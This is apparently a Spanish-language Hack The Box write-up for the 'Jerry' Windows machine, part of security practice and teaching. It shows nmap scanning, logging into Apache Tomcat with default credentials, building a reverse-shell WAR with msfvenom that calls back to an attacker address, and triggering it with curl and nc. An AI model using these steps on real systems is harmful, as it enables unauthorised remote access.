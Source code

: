 ```yaml
---
title: Jerry - HTB Writeup
date: 2023-09-06 22:00:00
categories: [Writeups, HTB]
tags: [Easy, Windows]
image:
    path: /assets/img/post/jerry/catherine-heath-i4W8OINLI_I-unsplash.jpg
---
```


**Jerry** es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad en el servicio ```Apache``` por el puerto ```8080```

## **Reconocimiento**

Como siempre utilizaremos la herramienta ```nmap``` para reportar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
```

![img](/assets/img/post/jerry/feb426c5-b454-4f82-aaa7-5949a66c0751.png)

En la máquina esta abierto solamente el puerto ```8080``` , si introducimos la ```URL``` en el buscador junto al puerto, podemos ver lo siguiente:

![img](/assets/img/post/jerry/0701b41c-55c8-4188-ba3f-75cf0c92fbcc.png)

Podemos **loguearnos** en el servicio **Apache Tomcat** con las credenciales predeterminadas ```tomcat:s3cret```:

![img](/assets/img/post/jerry/658a5dde-829f-4032-8068-8d70f427a1e0.png)

Vemos que hay una sección donde podemos **subir archivos** ```.war``` , la cual usaremos para conseguir acceso al sistema: 

![img](/assets/img/post/jerry/f13630bf-58f1-4988-bdea-0e9e224c5fc1.png)

### Web Aplication Resource Files

> Un archivo ```WAR```, es un formato de archivo utilizado para **empaquetar y distribuir aplicaciones web** en la plataforma **Java**. Este contiene todos los recursos necesarios para ejecutar una aplicación web en un solo archivo comprimido.

## Explotación

Usaremos la herramienta ```msfvenom``` para crear una ```reverse shell``` en windows y poder acceder mediante ```nc```:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war > rev_shell.war
```

![img](/assets/img/post/jerry/6f231e1c-e4ea-4e1c-a7ea-c9341910e71c.png)

Además deberemos saber el nombre del archivo ```.jsp``` para activarla con la herramienta ```curl``` , por lo tanto usaremos ```jar``` para enumerar el contenido del archivo ```.war```:

![img](/assets/img/post/jerry/bc65ae69-5fe0-4c28-a763-84e8280629c9.png)

Ahora subiremos la reverse shell, mediante la web utilizando ```curl``` , nos pondremos en escucha en otra terminal mediante ```nc```:

```bash
curl http://10.10.10.95:8000/rev_shell/mdeonxmbgy.jsp
```

![img](/assets/img/post/jerry/7bd0c1bc-d7de-4a35-b8df-496fc4bce938.png)

De esta manera ya tendremos acceso completo a la máquina víctima, en donde podremos encontrar las flags en el ```Desktop``` del usuario ```administrator```.

Espero que haya ayudado, se agradece cualquier tipo de comentario para mejorar poco a poco. Adios!